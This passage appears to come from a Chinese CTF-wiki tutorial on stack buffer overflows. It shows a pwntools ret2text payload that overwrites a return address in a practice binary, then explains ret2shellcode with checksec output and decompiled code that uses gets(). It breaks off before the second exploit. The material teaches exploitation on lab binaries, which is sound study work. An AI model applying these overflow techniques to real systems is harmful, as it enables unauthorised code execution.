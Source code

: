 
可以看到 esp 为 0xffffcd40，ebp 为 0xffffcdc8，同时 s 相对于 esp 的索引为 `esp+0x1c`，因此，我们可以推断：

- s 的地址为 0xffffcd5c
- s 相对于 ebp 的偏移为 0x6c
- s 相对于返回地址的偏移为 0x6c+4

因此最后的 payload 如下：

```python
##!/usr/bin/env python
from pwn import *

sh = process('./ret2text')
target = 0x804863a
sh.sendline(b'A' * (0x6c + 4) + p32(target))
sh.interactive()
```

## ret2shellcode

### 原理

ret2shellcode，即控制程序执行 shellcode 代码。shellcode 指的是用于完成某个功能的汇编代码，常见的功能主要是获取目标系统的 shell。**通常情况下，shellcode 需要我们自行编写，即此时我们需要自行向内存中填充一些可执行的代码**。

在栈溢出的基础上，要想执行 shellcode，需要对应的 binary 在运行时，shellcode 所在的区域具有可执行权限。

需要注意的是，**在新版内核当中引入了较为激进的保护策略，程序中通常不再默认有同时具有可写与可执行的段，这使得传统的 ret2shellcode 手法不再能直接完成利用**。

### 例子

这里我们以 bamboofox 中的 ret2shellcode 为例，需要注意的是，你应当在内核版本较老的环境中进行实验（如 Ubuntu 18.04 或更老版本）。由于容器环境间共享同一内核，因此这里我们无法通过 docker 完成环境搭建。

> 点击下载: [ret2shellcode](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2shellcode/ret2shellcode-example/ret2shellcode)

首先检测程序开启的保护：

```shell
➜  ret2shellcode checksec ret2shellcode
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

可以看出源程序几乎没有开启任何保护，并且有可读，可写，可执行段。接下来我们再使用 IDA 对程序进行反编译：

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No system for you this time !!!");
  gets((char *)&v4);
  strncpy(buf2, (const char *)&v4, 0x64u);
  printf("bye bye ~");
  return 0;
}
```
